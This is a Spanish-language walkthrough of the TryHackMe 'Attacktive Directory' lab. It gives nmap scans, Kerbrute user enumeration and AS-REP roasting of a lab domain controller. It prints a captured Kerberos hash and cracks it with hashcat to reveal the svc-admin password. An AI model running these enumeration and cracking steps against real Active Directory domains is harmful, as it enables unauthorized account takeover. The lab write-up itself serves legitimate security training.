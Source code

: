 # Sala virtual Attacktive Directory
El 99% de las redes corporativas funcionan con AD. Pero, ¿Puedes explotar un Domain Controller vulnerable?

## Conceptos previos
#### ¿Qué es Impacket?

Impacket es una colección de clases de Python para trabajar con protocolos de red. Impacket se centra en proporcionar acceso programático de bajo nivel a los paquetes y, para algunos protocolos (por ejemplo, SMB1-3 y MSRPC), la implementación del protocolo en sí.
## Programas necesarios

### Impacket
#### Instalación

Ejecutar los siguientes comandos:
~~~
sudo git clone https://github.com/SecureAuthCorp/impacket.git /opt/impacket
sudo pip3 install -r /opt/impacket/requirements.txt
sudo cd /opt/impacket/
sudo pip3 install .
sudo python3 setup.py install
~~~

### Kerbrute
#### Instalación
Ejecutar los siguientes comandos:
~~~
sudo git clone https://github.com/ropnop/kerbrute
cd kerbrute
go build .
~~~

# Comenzamos!!!
Para mí la IP de la máquina virtual que esta en mi red es 10.10.35.36. A ustedes les puede dar una IP distinta así que recuerde cambiarla al momento de realizar los pasos.
## 1. Fase de Descubrimiento
Verificamos si tenemos traza ICMP con la máquina virtual con el siguiente comando.

    ping -c 1 10.10.35.36

![img1](https://github.com/Hiteek/TryHackMe/blob/master/AttacktiveDirectory/img/img1.png)

Si podemos enviar paquetes además como el ttl es 127 podemos decir que se trata de una máquina Windows.

Para un escano rapido y centrado en el Active Directory podemos usar la herramienta **enum4linux**.

![img3](https://github.com/Hiteek/TryHackMe/blob/master/AttacktiveDirectory/img/img3.png)

Para un escaneo más exhaustivo utilizaremos la herramienta **Nmap**.

    nmap -p- --open -T5 -v -n 10.10.35.36

![img2](https://github.com/Hiteek/TryHackMe/blob/master/AttacktiveDirectory/img/img2.png)

Luego lanzaremos una serie de scrips básicos de enumeración sobre los puertos abiertos con **Nmap**.

    nmap -sC -sV -p53,80,88,135,139,389,445,464,593,636,3268,3269,3389,5985,9389,47001,49664,49665,49667,49669,49672,49675,49676,49679,49684,49696 10.10.35.36

~~~
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-20 16:35 -05
Nmap scan report for 10.10.35.36
Host is up (0.19s latency).

PORT      STATE  SERVICE       VERSION
53/tcp    open   domain        Simple DNS Plus
80/tcp    open   http          Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
88/tcp    open   kerberos-sec  Microsoft Windows Kerberos (server time: 2021-04-20 21:35:55Z)
135/tcp   open   msrpc         Microsoft Windows RPC
139/tcp   open   netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open   ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
445/tcp   open   microsoft-ds?
464/tcp   open   kpasswd5?
593/tcp   open   ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open   tcpwrapped
3268/tcp  open   ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
3269/tcp  open   tcpwrapped
3389/tcp  open   ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info:
|   Target_Name: THM-AD
|   NetBIOS_Domain_Name: THM-AD
|   NetBIOS_Computer_Name: ATTACKTIVEDIREC
|   DNS_Domain_Name: spookysec.local
|   DNS_Computer_Name: AttacktiveDirectory.spookysec.local
|   Product_Version: 10.0.17763
|_  System_Time: 2021-04-20T21:36:47+00:00
| ssl-cert: Subject: commonName=AttacktiveDirectory.spookysec.local
| Not valid before: 2021-04-19T19:58:44
|_Not valid after:  2021-10-19T19:58:44
|_ssl-date: 2021-04-20T21:36:56+00:00; 0s from scanner time.
5985/tcp  open   http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open   mc-nmf        .NET Message Framing
47001/tcp open   http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open   msrpc         Microsoft Windows RPC
49665/tcp open   msrpc         Microsoft Windows RPC
49667/tcp closed unknown
49669/tcp open   msrpc         Microsoft Windows RPC
49672/tcp open   msrpc         Microsoft Windows RPC
49675/tcp open   ncacn_http    Microsoft Windows RPC over HTTP 1.0
49676/tcp open   msrpc         Microsoft Windows RPC
49679/tcp open   msrpc         Microsoft Windows RPC
49684/tcp closed unknown
49696/tcp open   msrpc         Microsoft Windows RPC
Service Info: Host: ATTACKTIVEDIREC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   2.02:
|_    Message signing enabled and required
| smb2-time:
|   date: 2021-04-20T21:36:50
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 74.70 seconds
~~~

Nos fijamos en el puerto 3389 que nos muestra el NetBIOS_Domain_Name y el TLD.

Ahora con la [lista de usuarios](https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/userlist.txt) potenciales del DC que nos dio la pagina y la herramienta **Kerbrute** podemos enumerar los usarios validos del Dominio.

![img4](https://github.com/Hiteek/TryHackMe/blob/master/AttacktiveDirectory/img/img4.png)

Para ello ejecutaremos el siguiente comando dentro de la carpeta de Kerbrute.

    ./kerbrute userenum --dc 10.10.35.36 -d spookysec.local userlist.txt

![img6](https://github.com/Hiteek/TryHackMe/blob/master/AttacktiveDirectory/img/img6.png)

Como atacantes de la lista de usuarios validos nos llaman la atención dos usuarios: svc-admin y backup

Genial! Ahora que conocemos que usuarios son validos podemos usar la herramienta **GetNPUsers.py** para saber que usuarios no requieren de autenticacion previa. La autenticación previa es el primer paso en la autenticación Kerberos y está diseñada para evitar ataques de adivinación de contraseñas por fuerza bruta.

![img7](https://github.com/Hiteek/TryHackMe/blob/master/AttacktiveDirectory/img/img7.png)

El usuario svc-admin es ASReproastable ya que no tiene autenticacion previa. Ademas nos devolvio un hash al final.

    $krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:20d39c6093746fe66f77e1c216eebd50$046a49cb21dd0d99a1f4a120e33899b1120692b15d573315e3f280b3322990a46825b971297a0a9c886a0789016b169a39b6a5490282bc62eace54a2b0ca68d9c6fa203de6c7fbc918d2ecca015df55c11e3520902b6a95d9e19291094604a4d114e64ce7b7bc1ba4af85522753732843876dbc86cef2693f597c2e8c6ced716b6046f9748f926d344223d41324aace0085154b8a6380af0f99868edd71c4bd1bce4eb4b7bb3e88ff242725486b396c354ec8af82fe51dd056a72c4f2c6bce9060d69b66b90396a523ee02f8ca1fee5d0a5e32f3422f75c80c48a4b6ff90d8bb96fff40d59d03ddb76536aeb1d501e76692a

## 2. Fase de Ataque

Haciendo uso de la herramienta **hashcat** vamos a crackear el hash que obtuvimos pero antes debemos saber que tipo de hash es para ello hashcat nos da varios ejemplos con la opción --example-hashes.

    hashcat --example-hashes | grep "krb5asr" -B 3

![img8](https://github.com/Hiteek/TryHackMe/blob/master/AttacktiveDirectory/img/img8.png)

Ahora que sabemos que es un hash de tipo Kerberos 5 AS-REP etype 23 modo 18200 ya podremos romperlo con hashcat usando la [lista de contraseñas](https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/passwordlist.txt) que nos da la pagina.

    hashcat -m 18200 -a 0 hash passwordlist.txt

Donde -m indica el modo, con -a indicamos el modo de ataque, el hash que mostramos anteriormente esta en un archivo llamado hash y passwordlist.txt es el archivo que contiene todas las contraseñas potenciales que nos dio la página.

Para mostrar el resultado usaremos el comando:

    hashcat -m 18200 -a 0 hash passwordlist.txt --show


![img9](https://github.com/Hiteek/TryHackMe/blob/master/AttacktiveDirectory/img/img9.png)

La contraseña del usuario svc-admin es management2005
